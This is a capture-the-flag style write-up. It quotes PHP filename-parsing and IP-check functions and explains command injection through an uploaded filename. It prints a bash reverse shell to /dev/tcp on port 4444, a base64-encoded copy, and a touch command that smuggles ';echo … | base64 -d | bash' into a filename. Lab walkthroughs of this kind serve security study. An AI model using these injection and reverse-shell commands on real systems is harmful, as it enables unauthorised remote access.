 ```php
function getnameCheck($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  #echo "name $name - ext $ext\n";
  return array($name,$ext);
}

#takes name in the form 10_10_14_27.php.jpg and works with it, returns extensions and name in the form of
#valid IP address, which is then checked by check_ip() function
```

```php
function check_ip($prefix,$filename) {
  //echo "prefix: $prefix - fname: $filename<br>\n";
  $ret = true;
  if (!(filter_var($prefix, FILTER_VALIDATE_IP))) {
    $ret = false;
    $msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";
  } else {
    $msg = $filename;
  }
  return array($ret,$msg);
}
```

In the script itself we have `nohup` binary which is written without full path too, but again it will use default minimal path (`/usr/bin/nohup`). 

The script will use the `if` condition after which `exec` is used, only in that case when file format is not in the form of `IP_ADDRESS.<ext>`. Though when uploading file from browser, browser uses function in `upload.php`  and automatically converts the name of the file to origin IP address format (10_10_14_27.jpg), so we can trigger that by putting a malicious-named file in the shell itself that we have. If we put a name containin reverse shell we could be able to get a code execution.

Linux filesystem is permissive, which means a user can create a file with essentially any name, except for `/` and `NULL`. Security risk arises when filenames start with `-`,  which can be interpreted as command-line option( option for a command ). 

Best way here seems to be base64 encoding and the piping the output to base64 decod

```bash
bash -i >& /dev/tcp/10.10.14.27/4444 0>&1
```

Encode the command to Base64

[Reverse Shell Generator](https://www.revshells.com/)

 then decode and it and pipe it into bash afterwards.

```bash
touch ';echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNy80NDQ0IDA+JjE= | base64 -d | bash'
```

